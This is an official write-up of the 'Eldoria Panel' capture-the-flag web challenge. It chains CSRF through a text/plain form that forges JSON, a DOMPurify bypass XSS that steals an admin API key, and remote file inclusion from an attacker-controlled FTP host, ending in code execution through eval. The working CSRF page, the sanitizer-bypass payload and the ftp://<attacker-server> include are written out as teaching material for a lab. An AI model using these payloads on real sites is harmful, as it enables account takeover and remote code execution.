




        <font size="10">Eldoria Panel</font>

09<sup>th</sup> March 2025

Prepared By: 0x3d

Challenge Author(s): 0x3d

Difficulty: <font color=orange>Medium</font>

Classification: Official

# [Synopsis](#synopsis)

- CSRF on POST endpoint via PHP json bug => DOM purify bypass XSS => Account Takeover => RFI via FTP => RCE

## Description

* A development instance of a panel related to the Eldoria simulation was found. Try to infiltrate it to reveal Malakar's secrets.

## Skills Required

- Knowledge of PHP
- Knowledge of client-side vulnurabilities

## Skills Learned

- Exploiting JSON parsing inconsistencies in PHP to cause CSRF
- Bypassing DOM purify
- Using FTP to cause RFI

## Application Overview



When visiting the panel we immediatelly see a login page.



We can also register, and then log in.



Upon being logged in we are met with a section "MAGICAL CREDENTIALS" where we can view an "API KEY" tied to our account, an editable "HERO STATUS". Then we have the "AVAILABLE QUESTS" section, where we can view different quests.



There is also the functionality to "CLAIM QUEST" by providing quest id, quest url and number of participants.

## Exploitation

### No Proper JSON Validation + CSRF in `/api/updateStatus`

```php
// POST /api/updateStatus
$app->post('/api/updateStatus', function (Request $request, Response $response, $args) {
    $data = json_decode($request->getBody()->getContents(), true);  // (A)
    $newStatus = $data['status'] ?? '';
    if (!isset($_SESSION['user'])) {
        $result = ['status' => 'error', 'message' => 'Not authenticated'];
    } else {
        $_SESSION['user']['status'] = $newStatus;                    // (B)
        $pdo = $this->get('db');
        $stmt = $pdo->prepare("UPDATE users SET status = ? WHERE id = ?");
        $stmt->execute([$newStatus, $_SESSION['user']['id']]);
        $result = ['status' => 'updated', 'newStatus' => $newStatus];
    }
    $response->getBody()->write(json_encode($result));
    return $response->withHeader('Content-Type', 'application/json');
})->add($apiKeyMiddleware);
```

##### Where It Goes Wrong

 - (A) `json_decode($request->getBody()->getContents(), true);`
The endpoint reads raw request data as JSON but does not actually enforce `Content-Type: application/json` or perform any robust validation. Attackers can send requests with `enctype="text/plain"`, tricking PHP into parsing partial data incorrectly. This opens the door to “weird” injection or partial JSON parse scenarios — effectively enabling a CSRF: an attacker page can auto-submit a form in “text/plain” format so that the server processes it as if it were JSON.

 - (B) `$_SESSION['user']['status'] = $newStatus;`
The new status is stored directly in the session without sanitization or escaping. This allows arbitrary HTML/JavaScript to be injected into the user’s "status," which can be rendered later on pages.

### `questUrl` => SSRF-Like "Bot" Request

```php
// POST /api/claimQuest
$app->post('/api/claimQuest', function (Request $request, Response $response, $args) {
    ...
    if (!empty($data['questUrl'])) {
        $validatedUrl = filter_var($data['questUrl'], FILTER_VALIDATE_URL);
        if ($validatedUrl !== false) {
            $safeQuestUrl = escapeshellarg($validatedUrl);
            $cmd = "nohup python3 " . escapeshellarg(__DIR__ . "/bot/run_bot.py") . " " . $safeQuestUrl . " > /dev/null 2>&1 &";
            exec($cmd);                                // (C)
        }
    }
    ...
})->add($apiKeyMiddleware);
```

##### Where It Goes Wrong?

(C) The code uses `exec()` to run a shell command that calls `run_bot.py` with a user-supplied URL. Even though `escapeshellarg()` prevents direct shell injection, the bigger problem is that the "bot" is effectively an internal service that visits whichever URL is given by the user. This becomes an SSRF-like or "bot-based" request: the user can supply a malicious URL that the server-side "bot" visits automatically.

```py
import sys
import time
import sqlite3
from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.chrome.options import Options

def main():
	if len(sys.argv) < 2:
		print("No quest URL provided.", file=sys.stderr)
		sys.exit(1)
	quest_url = sys.argv[1]

	DB_PATH = "/app/data/database.sqlite"

	conn = sqlite3.connect(DB_PATH)
	c = conn.cursor()

	c.execute("SELECT name FROM sqlite_master WHERE type='table' AND name='users'")
	if not c.fetchone():
		print("The 'users' table doesn't exist. Run seed script or create it here.")
		sys.exit(1)

	c.execute("SELECT username, password FROM users WHERE is_admin = 1 LIMIT 1")
	admin = c.fetchone()
	if not admin:
		print("Admin not found in the database.", file=sys.stderr)
		sys.exit(1)

	admin_username, admin_password = admin

	chrome_options = Options()

	chrome_options.add_argument("headless")
	chrome_options.add_argument("no-sandbox")
	chrome_options.add_argument("ignore-certificate-errors")
	chrome_options.add_argument("disable-dev-shm-usage")
	chrome_options.add_argument("disable-infobars")
	chrome_options.add_argument("disable-background-networking")
	chrome_options.add_argument("disable-default-apps")
	chrome_options.add_argument("disable-extensions")
	chrome_options.add_argument("disable-gpu")
	chrome_options.add_argument("disable-sync")
	chrome_options.add_argument("disable-translate")
	chrome_options.add_argument("hide-scrollbars")
	chrome_options.add_argument("metrics-recording-only")
	chrome_options.add_argument("no-first-run")
	chrome_options.add_argument("safebrowsing-disable-auto-update")
	chrome_options.add_argument("media-cache-size=1")
	chrome_options.add_argument("disk-cache-size=1")

	driver = webdriver.Chrome(options=chrome_options)

	try:
		driver.get("http://127.0.0.1:80")

		username_field = driver.find_element(By.ID, "username")
		password_field = driver.find_element(By.ID, "password")

		username_field.send_keys(admin_username)
		password_field.send_keys(admin_password)

		submit_button = driver.find_element(By.ID, "submitBtn")
		submit_button.click()

		driver.get(quest_url)

		time.sleep(5)

	except Exception as e:
		print(f"Error during automated login and navigation: {e}", file=sys.stderr)
		sys.exit(1)

	finally:
		driver.quit()

if __name__ == "__main__":
	main()

```

Looking at the bot source we see that it first logs in as admin to the application and then it visits the provided URL. So by hosting a page that contains an HTML page like the following:

```html
<html>
  <body>
	<form action="http://127.0.0.1:80/api/updateStatus" method="POST" enctype="text/plain">
		<input type="hidden" name='{{"status": "XSS","foo' value='":"b"}}' />
	</form>
	<script>document.forms[0].submit();</script>
  </body>
</html>
```

We can cause CSRF on the bot as the admin user that will be escalated to XSS.

### XSS in "status" => Admin Key Theft

Because `/api/updateStatus` saves unescaped HTML in `$_SESSION['user']['status']`, any page rendering that status (e.g., the admin’s dashboard or the user profile) is at risk. For example:

```js
fetch('/api/user')
    .then(res => res.json())
    .then(user => {
    if (user.error) {
        window.location.href = '/login';
    } else {
        document.getElementById('apiKey').textContent = user.api_key;
        document.getElementById('userLevel').textContent = 'LVL ' + (user.level || 1);
        document.getElementById('userRank').textContent = user.rank || 'NOVICE';
        document.getElementById('userRole').textContent = (user.is_admin ? 'ADMIN' : 'USER');
        document.getElementById('magicPower').textContent = (user.magicPower || 50) + '%';
        document.getElementById('questsCompleted').textContent = user.questsCompleted || 0;
        
        const cleanStatus = DOMPurify.sanitize(user.status || 'Ready for adventure!', {
            USE_PROFILES: { html: true },
            ALLOWED_TAGS: ['a', 'b', 'i', 'em', 'strong', 'span', 'br'],
            FORBID_TAGS: ['svg', 'math'],
            FORBID_CONTENTS: ['']
        });

        document.getElementById('heroStatus').innerHTML = cleanStatus;

        const progressBar = document.querySelector('.retro-progress-bar');
        if (progressBar) {
            progressBar.style.width = (user.magicPower || 50) + '%';
        }
    }
});
```

Here we can see that the status is passed through `DOMPurify` and the set to `innerHTML`.

It is possible for us to bypass this XSS mitigation useing a techinque overviewed here: [https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes](https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes)

By using a payload like the following:

```html
<form id="x "><svg><style><a id="</style>"></a></style></svg></form><input form="x" name="namespaceURI">
```

However it is not possible to add strings to our JS in the payload since it gets passed through PHP's JSON parser, so in order to bypass this limitation we need to use JS `String.fromCharCode` to convert each character of our js payload to an integer and re-encode it to a string on runtime.

```html
<form id=\\"x \\"><svg><style><a id=\\"</style>\\"></a></style></svg></form><input form=\\"x\\" name=\\"namespaceURI\\">
```

Also we have to add `\\` to every quote to get escaped by JSON.

`Impact`: Admin-level XSS. The attacker’s script runs in the admin’s browser, capturing the admin’s credentials (API key) and making privileged requests.

### Updating template_path => FTP RFI

```php
// POST /api/admin/appSettings
$app->post('/api/admin/appSettings', function (Request $request, Response $response, $args) {
    $data = json_decode($request->getBody()->getContents(), true);
    ...
    $stmt = $pdo->prepare("INSERT INTO app_settings (key, value) VALUES (?, ?)
        ON CONFLICT(key) DO UPDATE SET value = excluded.value");
    foreach ($data as $key => $value) {
        $stmt->execute([$key, $value]);
    }
    if (isset($data['template_path'])) {
        $GLOBALS['settings']['templatesPath'] = $data['template_path'];  // (E)
    }
    ...
})->add($adminApiKeyMiddleware);
```

##### Where It Goes Wrong

 - (E) The code updates a global `$GLOBALS['settings']['templatesPath']` directly from user input. If an admin’s API key is used, the attacker can set template_path to something like:
 ```
 ftp://<attacker-server>:2121
 ```

`Impact`: This is a classic Remote File Inclusion (RFI). The next time the app tries to render a template, it fetches the file from that remote location.

### Rendering the Remote Template => RCE

```php
function render($filePath) {
    if (!file_exists($filePath)) {
        return "Error: File not found.";
    }
    $phpCode = file_get_contents($filePath);             // (F)
    ob_start();
    eval("?>" . $phpCode);                               // (G)
    return ob_get_clean();
}
...
$app->get('/dashboard', function (...) {
    $html = render($GLOBALS['settings']['templatesPath'] . '/dashboard.php');  // (H)
    ...
});
```

##### Where It Goes Wrong

 - (F) `file_get_contents($filePath)` can read from a remote source if `allow_url_fopen` is on. So if `$filePath` is `ftp://attacker-ip/dashboard.php`, it will download remote PHP code.
 - (G) `eval("?>" . $phpCode)` executes the downloaded code on the server.
 - (H) The app calls `render($GLOBALS['settings']['templatesPath'] . '/dashboard.php')`. Because we changed template_path, the server fetches `ftp://attacker:2121/dashboard.php` (or something similar) and runs it.

`Impact`: Full remote code execution. An attacker can supply a malicious `index.php` or `dashboard.php` that runs `system()` commands, such as copying `/flag*` to a publicly accessible directory.

### Putting It All Together

CSRF on `/api/updateStatus` via "text/plain"
    The attacker triggers the internal "bot" to load an attacker page that auto-submits a malicious form.
    That form sets the user’s `status` to a malicious JavaScript snippet (XSS), due to improper JSON necoding implementation.

XSS -> Steal Admin Key
    When the admin views the user’s status (or visits a page that shows "status"), the embedded JS runs using a DOMPurify bypass.
    The script fetches the admin’s API key from the DOM and uses it to call `/api/admin/appSettings`.

RFI Setup -> `template_path`
    Using the admin’s key, the attacker sets template_path to an FTP address under their control.
    The server’s `render()` function will then fetch `.php` files remotely.

Remote Code Execution
    The attacker’s malicious `.php` is fetched and executed by `eval()`.
    That `.php` does `system('cp /flag* /app/public/flag.txt');` (for example).
    The attacker then simply requests `http://challenge/flag.txt` to read the captured flag.
